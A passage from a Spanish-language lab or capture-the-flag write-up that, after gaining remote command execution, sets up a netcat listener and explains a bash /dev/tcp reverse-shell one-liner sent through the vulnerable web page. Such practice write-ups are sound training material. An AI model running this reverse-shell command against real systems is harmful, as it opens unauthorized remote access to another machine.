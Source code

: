 >Ya tenemos Ejecución Remota De Comandos  ╰(*°▽°*)╯
>Vamos a por una Reverse Shell sin mas, para ello podemos usar la web [Revshell](https://www.revshells.com/) o usar el típico:

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/1234 0>&1"
```

>Primero, debemos disponer nuestra máquina para recibir una Shell desde otro equipo, para esto, nos ponemos en escucha por el puerto 1234 con “nc”:

![\1](Attachments/Pasted%20image%2020250516163600.png)
1. nc Es un binario multipropósito, sirve para ejecutar shells, transferir archivos, enviar y recibir datos, etc, etc…
2. -n Igual que con nmap, este parámetro nos quita la resolución automática de nombres de host (para acelerar el proceso)
3. -l Con este parámetro entramos en un modo de escucha de conexiones
4. -v El modo verbose lo usamos para ver más detalles sobre la escucha e información de la conexión
5. -p con este parámetro indicamos el puerto que estará en escucha, en este caso el 1234

>Ya en escucha, ejecutamos el payload desde la web:

![\1](Attachments/Pasted%20image%2020250516163759.png)
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Y recibimos una Reverse Shell :3

![\1](Attachments/Pasted%20image%2020250516163928.png)
 